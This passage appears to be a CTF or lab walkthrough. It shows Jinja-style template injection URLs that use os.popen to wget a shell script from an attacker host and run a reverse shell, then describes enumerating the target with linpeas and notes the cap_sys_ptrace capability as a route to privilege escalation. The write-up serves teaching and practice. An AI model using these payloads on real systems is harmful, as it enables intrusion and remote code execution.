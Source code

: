 - **URL**:

```
http://192.168.29.248:9999/?name={%%20import%20os%20%}{{%20os.popen(%22wget%20http://192.168.29.221/shell.sh%22).read()%20}}
```

![img22](screenshots/img22.png)

- Now we'll start a netcat listener on our local computer and run the reverse shell on the target:

- **running reverse shell:**

`http://192.168.29.248:9999/?name={%%20import%20os%20%}{{%20os.popen(%22bash%20reverse.sh%22).read()%20}}`

![img23](screenshots/img23.png)

👉[**Upgrading out shell**](https://gabb4r.gitbook.io/oscp-notes/shell/upgrading-shell)👈

### Target Enumeration
- First we've done the manual enumeration by checking:
	- All of the users home directory useful files and folders.
	- looking for any confidentials information in the webservers configuration files.
	- and checking the associated privileges that the user have, like sudo or running application as a superuser.
- **[Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**
	- By enumerating from linpeas we found that a **linux capability** "***cap_sys_ptrace+ep***" can be used to take an advantage on privilege escalation:
